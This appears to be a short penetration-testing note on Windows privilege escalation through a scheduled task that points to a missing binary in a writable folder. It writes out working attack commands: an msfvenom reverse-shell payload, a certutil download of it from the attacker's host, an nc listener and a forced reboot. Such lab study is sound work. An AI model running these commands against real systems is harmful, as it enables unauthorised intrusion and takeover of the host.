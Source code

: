 (checklist)

- port scan
- version scan
- service scan

COMMANDS:
Scheduled Tasks

Finding the vulnerabilityNormally, wehave a limited capability to view the Scheduled Tasksthat are owned by other users in a Windows host.

We can run the command below to list all the Tasksthat are owned by the current user that we just compromised.

schtasks /query /fo LIST /v

-Theother way to get an idea of the Scheduled Tasksis if there are exposed folders or any batch scripts that indicates it is as Scheduled Tasks. 

-If it’s a White Boxtest, and we are given a “representative machine” with installed application, we can try to run Autorunand check the “Scheduled Task”functionality. -Run “Autorun” as administrator

Noticed that MyTask2 is trying to load the program.exebinary in C:\Missing Scheduled Binary\program.exe (path but the binary is missing)
 - File not found: C:\Missing Scheduled Binary\program.exe

If we have a write access to the file path, we can just drop our reverse shell payload in that path

The payload will then be executed the next time the Tasksrun.

Run icacls to check our permission in the file path

icacls.exe -w "C:\Missing Scheduled Binary\"
 - Everyone: (F)

Escalate the Privilege
 Generate the payload

msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.121.131 lport=4444 -f exe -o program.exe

Let the machine download the program.exe to C:\Missing Scheduled Binary\
sudo python3 -m http.server 8080

cd "C:\Missing Scheduled Binary"
 -certutil -urlcache -f http://192.168.121.131:8080/program.exe program.exe

Setup listener
nc -nlvp 4444

Restart the windows host
 - shutdown /r

Go back to the terminal
